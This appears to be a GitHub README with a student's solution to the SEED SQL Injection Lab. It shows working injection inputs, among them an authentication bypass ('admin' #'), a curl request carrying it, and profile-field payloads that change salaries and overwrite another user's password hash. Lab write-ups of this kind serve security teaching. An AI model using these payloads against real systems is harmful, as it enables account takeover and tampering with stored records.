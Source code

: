 # SEED-SQL-Injection-Lab
Solution of the SEED SQL Injection Lab 
Lab Tasks
Task 1: Get Familiar with SQL Statements 
$ mysql -u root -pseedubuntu
mysql> show databases;
mysql> use Users;
 
 
mysql> show tables;
mysql>  select * from credential where name = ‘Alice’;

 
 
Task 2.1: SQL Injection Attack from webpage.
Type “ admin’ # ” in the Username field and leave empty the password field.
 
 
 
Task 2.2: SQL Injection Attack from command line.
Write Code on Terminator in Seed Lab:

	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
 
 
 
Task 3.1: Modify your own salary.
As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords; they are not authorized to change their salaries. Assume that I am Alice. I want to increase my own salary by exploiting the SQL injection vulnerability in the Edit-Profile page. I know that salaries are stored in a column called salary.
I will use the statement ine the NickName field: ', Salary=10000 where name = ‘Alice’ #

Salary before statement:
 
 
Salary after statement:
 
Task 3.2: Modify other people’ salary.
I want to reduce Boby’s salary to 1 dollar.
Use statement in Alice’s profile editor: ', Salary=1 where name = ‘Boby’ # 
 
Task 3.3: Modify other people’ password.
I want to change Boby’s password that I can log into his account and do further damage.
It uses SHA1 hash function to generate the hash value of password.
Use the following statement:
echo -n “tedwashere” | sha1sum
 

Copy the code you get and paste in Alice’s profile editor as the following statement:
', password=(code you copied) where name = ‘Boby’ #
 
Boby’s password before and after;
 
 
Task 4: Countermeasure — Prepared Statement.


 
   
 
